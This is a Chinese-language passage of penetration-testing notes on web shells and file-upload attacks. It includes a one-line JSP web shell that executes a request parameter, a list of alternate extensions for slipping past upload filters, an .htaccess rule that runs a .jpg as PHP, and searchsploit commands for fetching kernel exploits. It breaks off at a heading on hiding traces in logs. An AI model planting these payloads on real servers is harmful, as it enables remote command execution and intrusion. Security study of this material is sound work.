 ```jsp
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

## 等价扩展名

| 语言 |           等价扩展名           |
| :--: | :----------------------------: |
| asp  |          asa,cer,cdx           |
| aspx |         ashx,asmx,ascx         |
| php  | php2,php3,php4,php5,phps,phtml |
| jsp  |           jspx,jspf            |

## .htaccess

主要作用：url重写，自定义错误界面，MIME类型配置以及访问权限控制等。

可以用来实现伪静态、图片防盗链、自定义404错误页面、阻止/允许特定IP/IP段、目录浏览与主页、禁止访问指定文件类型、文件密码保护等。

在渗透方面主要用于调用php去执行一个jpg文件

```htaccess
<FileMatch "a.jpg">
	SetHandler application/x-httpd-php
</FileMatch>
```

## 文件上传漏洞

前提： 

1. 网站上传功能可以正常使用   redis   mysql
2. 文件类型允许上传  php  asp
3. 文件路径可以确定
4. 文件可以被访问，可以被执行或被包含

## 漏洞搜索

```shell
searchsploit 内核版本号
```

下载漏洞文件

```shell
searchsploit -m 9542.c
```

# 日志发现和伪装

## Nginx
